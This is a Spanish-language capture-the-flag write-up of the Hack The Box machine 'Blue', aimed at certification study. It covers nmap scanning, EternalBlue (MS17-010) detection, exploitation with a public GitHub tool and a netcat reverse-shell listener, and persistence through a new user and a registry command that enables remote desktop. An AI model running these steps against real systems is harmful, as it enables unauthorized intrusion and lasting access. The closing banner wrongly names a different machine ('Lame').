 ```yaml
---
layout: post
title: "Write Up Blue. "
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Windows,HTB,SMB,EternalBlue,Protocols,Outdated-Software,Metasploit,Security-Tools,Persistence,CVE,RCE,Network,Vulnerability-Assessment,Reconnaissance,eJPTv2,OSCP]
image:
  path: /assets/img/blue/blue.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.10.40 -oA allports
```


![list](/assets/img/blue/Kali-2022-09-12-11-21-03.png){:.lead width="800" height="100" loading="lazy"}


### Services and Versions


```bash
nmap -p135,139,445,49152,49153,49154,49155,49156,49157 -sV -sC 10.10.10.40 -oN target
```


***

## Vulnerability Analysis


### SMB TCP-445


Investigando en **Google** y utilizando nmap, encontramos un script para determinar si es vulnerable a **Eternal Blue**. Esto lo sabemos al verificar el output de la versión de SMB, que indica si es vulnerable.


![list](/assets/img/blue/Kali-2022-09-12-12-34-31.png){:.lead width="800" height="100" loading="lazy"}


### Nmap Script


```bash
nmap -p445 10.10.10.40 --script "vuln and safe" -oN vulscam
```


También podemos verificarlo utilizando **crackmapexec** de la siguiente manera.


![list](/assets/img/blue/Kali-2022-09-12-12-32-08.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Buscamos la versión de SMB y encontramos que es vulnerable a [EternalBlue]. 


[EternalBlue]: https://www.csirt-epn.edu.ec/servicios/vulnerabilidades/58-ms17-010


Una vez que conocemos el tipo de vulnerabilidad que es **EternalBlue**, lo siguiente es buscar un exploit para explotarlo. Podemos buscar rápidamente en **Searchsploit** o en Internet utilizando el término [MS17-010].


[MS17-010]: https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/


Con Searchsploit, buscamos EternalBlue o **MS17-010** y nos aparecen varios exploits relacionados.


![list](/assets/img/blue/Kali-2022-09-12-11-39-14.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Yo intenté utilizar el archivo **42315.py**, pero no funcionó para mí. Por lo tanto, decidí buscar en Internet otro exploit.


***

## Exploitation


Como el exploit de searchsploit no funcionó para mí, busqué en GitHub un repositorio dedicado a EternalBlue llamado [AutoBlue-MS17-010].


[AutoBlue-MS17-010]: https://github.com/3ndG4me/AutoBlue-MS17-010


Primero clonamos el repositorio.


Segundo entramos y ejecutamos el script **eternal_cheque.py**.


![list](/assets/img/blue/Kali-2022-09-12-12-13-51.png){:.lead width="800" height="100" loading="lazy"}


Tercero, nos dirigimos al directorio **shellcode** y creamos el payload con la IP de la VPN y el puerto que vamos a utilizar.


![list](/assets/img/blue/Kali-2022-09-12-12-53-59.png){:.lead width="800" height="100" loading="lazy"}


Cuarto, ponemos a la escucha el listener utilizando el comando `rlwrap nc -lvnp 443`.


Quinto podemos usar el python `zzz_exploit.py 10.10.10.40` ya que contempla otras variantes.


![list](/assets/img/blue/Kali-2022-09-12-13-10-39.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Yo utilice el payload **sc_x64.bin** porque el **sc_all.bin** no me sirvio.


Ya con esto somos **NT Authority System**, es decir, el superusuario. En este punto, solo debemos buscar la flag de **user.txt** que se encuentra en el directorio correspondiente `C:/Users/Haris/Desktop`.


![list](/assets/img/blue/Kali-2022-09-12-13-10-26.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Yo utilicé este script porque fue el que me reportó el nmap.


***

## Persistence


**Blue** no tiene escalación de privilegios ya que ya somos **root**, pero podemos buscar la flag en el siguiente directorio `C:/Users/Administrator/Desktop`.


![list](/assets/img/blue/Kali-2022-09-12-13-09-23.png){:.lead width="800" height="100" loading="lazy"}


Para crear presistencia ya en este punto y con permisos de superusuario podemos crear un **user** y una **pass** y agragarlo a un **grupo**.


![list](/assets/img/blue/Kali-2022-09-12-13-02-22.png){:.lead width="800" height="100" loading="lazy"}


Habilitamos escritorio remoto desde la línea de comandos con el siguiete **one-liner**.


```bash
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d
0 /f
```


{:.note}
Esto se hace en la maquina victima.


Con `rdesktop 10.10.10.40` entarmos al escritorio remoto ya solo sera agregar el user y pass que hemos creado. 


![list](/assets/img/blue/Kali-2022-09-12-13-10-51.png){:.lead width="800" height="100" loading="lazy"}


***

```bash
🎉 Felicitaciones ya has comprometido Lame de HackTheBox 🎉
```
{:.centered}

***

Back to [Beginner-Track](2023-06-29-Beginer-Tack.md){:.heading.flip-title}
{:.read-more}

***
Back to [Metasploit-Track](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eJPTv2](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}